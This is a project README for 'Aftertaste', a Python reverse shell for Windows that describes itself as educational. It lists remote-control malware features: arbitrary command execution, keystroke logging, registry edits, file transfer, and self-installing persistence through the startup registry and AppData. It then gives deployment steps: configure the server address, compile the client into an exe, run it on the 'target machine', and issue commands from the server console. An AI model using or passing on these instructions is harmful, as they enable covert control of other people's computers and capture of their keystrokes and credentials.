 # Aftertaste

Aftertaste is a python-based reverse shell with numerous tools for educational purposes. It allows arbitrary command execution of a client's machine, keystroke logging, and registry edits.

![alt text](img/client_server.png)

# Features

- Arbitrary command execution
- AES-128 bit key encryption between client and server packets
- Automatically places client into the startup registry on first launch
- Windows registry key manipulation
- Keystroke logging
- Encrypted file transfer between server and client

### Environment
| Operating System | Client | Server |
| ------ | ------ | ------ |
| Windows 10 | ✔ | ✔|
| Windows 8.1 | ✔ | ✔ |
| Ubuntu | ✘ | ✔|
Python 3.6+

### Installation

Install [python 3.6](https://www.python.org/downloads/release/python-369/) to be able to run the server

Install the python dependencies from the master branch

```sh
$ pip install -r requirements.txt
```

# Usage
### Running the client
Edit ./settings/keys.py to change the server's ip address and password

>CONN_IP_ADDRESS = "127.0.0.1"

>CONN_PASSWORD = "password"

>CONN_PORT=5000

Compile client.py on windows by running build.bat
```sh
$ .\build.bat
```
The exe file will be in the dist folder

Run the exe on the target machine

Running the exe file the first time will copy itself into the folder:
>C:\Users\%user%\AppData\Local\


### Server usage
Run server.py using python
```sh
$ python3 server.py
```

Once a client successfully connects to the server, list all current open connections using:
```sh
LST
```
Choose a connection 
```sh
CHS 0
```
Issue command line commands using
```sh
CMD [shell command]
```

![alt text](img/working_demo.gif)